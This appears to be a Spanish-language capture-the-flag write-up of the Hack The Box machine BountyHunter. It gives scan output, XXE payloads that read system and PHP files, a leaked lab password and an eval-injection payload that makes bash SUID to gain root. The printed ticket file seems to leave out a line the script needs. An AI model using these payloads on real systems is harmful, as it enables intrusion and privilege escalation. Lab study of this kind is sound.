 ```yaml
---
layout: single
title: BountyHunter - Hack The Box
excerpt: "BountyHunter is an easy Linux machine that uses XML external entity injection to read system files. Being able to read a PHP file where credentials are leaked gives the opportunity to get a foothold on system as development user. A message from John mentions a contract with Skytrain Inc and states about a script that validates tickets. Auditing the source code of the python script reveals that it uses the eval function on ticket code, which can be injected, and as the python script can be run as root with sudo by the development user it is possible to get a root shell."
date: 2024-04-18
classes: wide
header:
  teaser: /assets/images/htb-bounty/bounty.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - PHP
  - Script
  - XXE
---
```


![](/assets/images/htb-bounty/bounty.png)

BountyHunter is an easy Linux machine that uses XML external entity injection to read system files. Being able to read a PHP file where credentials are leaked gives the opportunity to get a foothold on system as development user. A message from John mentions a contract with Skytrain Inc and states about a script that validates tickets. Auditing the source code of the python script reveals that it uses the eval function on ticket code, which can be injected, and as the python script can be run as root with sudo by the development user it is possible to get a root shell. 

## Portscan

```
# Nmap 7.94SVN scan initiated Sun Apr 14 18:27:12 2024 as: nmap -p- --open -sS --min-rate 5000 -vvv -n -oG allPorts 10.10.11.100
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.100 ()	Status: Up
Host: 10.10.11.100 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///	Ignored State: closed (65533)
# Nmap done at Sun Apr 14 18:27:25 2024 -- 1 IP address (1 host up) scanned in 12.67 seconds

```
Y con esto analizamos los puertos abiertos:
```
# Nmap 7.94SVN scan initiated Sun Apr 14 18:28:12 2024 as: nmap -sCV -p22,80 -oN targeted 10.10.11.100
Nmap scan report for 10.10.11.100
Host is up (0.076s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Bounty Hunters
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr 14 18:28:23 2024 -- 1 IP address (1 host up) scanned in 10.85 seconds

```
## Analisis Web

Analizando la página vemos que nos puede llevar a un lugar donde poder introducir información y verla reflejada asi que vamos a capturar la petición con el burpsuite.
![](/assets/images/htb-bounty/pag1.png)


Aqui esta lo que tenemos en el burp
![](/assets/images/htb-bounty/burp1.png)

Vemos que tenemos una data en base64 asi que vamos a meterla en el decoder para ver que tenemos, esto nos da una peticion en php. Vamos a intentar hacer un XXE injection en php:
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
y donde queramos meterlo ponemos:
<title>&xxe;</title>
```
Lo encodeamos y lo ponemos de tipo url, probamos y nos da la respuesta que queremos asi que podemos probar mas inyecciones.
Antes de todo vamos a buscar un posible directorio de tipo .php
```
sudo wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.11.100/FUZZ.php
000000848:   200        0 L      0 W        0 Ch        "db"   
```

Ahora vamos a probarlo en el XXE injection:
```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>hi</cwe>
		<cvss>hi</cvss>
		<reward>hi</reward>
		</bugreport>
```
Esto nos devuelve un codigo en base64 que vamos a decodear en la terminal:
```
 echo "PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=" | base64 -d
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>

```
Vamos a probar la contraseña que nos ha dado entrando en ssh:
```
ssh development@10.10.11.100                                                                   130 ⨯
development@10.10.11.100's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 17 Apr 2024 03:00:45 PM UTC

  System load:           0.0
  Usage of /:            24.3% of 6.83GB
  Memory usage:          14%
  Swap usage:            0%
  Processes:             215
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.100
  IPv6 address for eth0: dead:beef::250:56ff:feb9:c391


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Wed Jul 21 12:04:13 2021 from 10.10.14.8
development@bountyhunter:~$
```
 
Ahora ya estamos dentro y podemos acceder a la flag de usuario

## Escalada de privilegios

Ahora toca escalar privilegios para obtener la flag de root. 
Con sudo -l vemos que tenemos permiso para ejecutar un script en python3
```
sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py

```
Vamos a ver el contenido de este script:

```
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()

```
Con esto analizandolo vemos que tenemos que introducir un archivo de tipo .md necesariamente, y mas requisitos.
Un posible contenido de nuestro archivo podria ser el siguiente:
```
# Skytrain Inc
## Ticket to 
** 11 + 2 
```

Y para intrucir un script malicioso podemos poner:
```
# Skytrain Inc
## Ticket to  
** 11 + 2  __import__('os').system('chmod u+s /bin/bash')
```

Esto si ejecutamos lo siguiente ya lo tendriamos:
```
sudo -u root python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
/tmp/hola.md
Destination: 
Invalid ticket.
development@bountyhunter:/tmp$ bash -p
bash-5.0# whoami
root
bash-5.0# cd /root
bash-5.0# cat root.txt
c647c549364f46534d4d74db2ed2b828

```

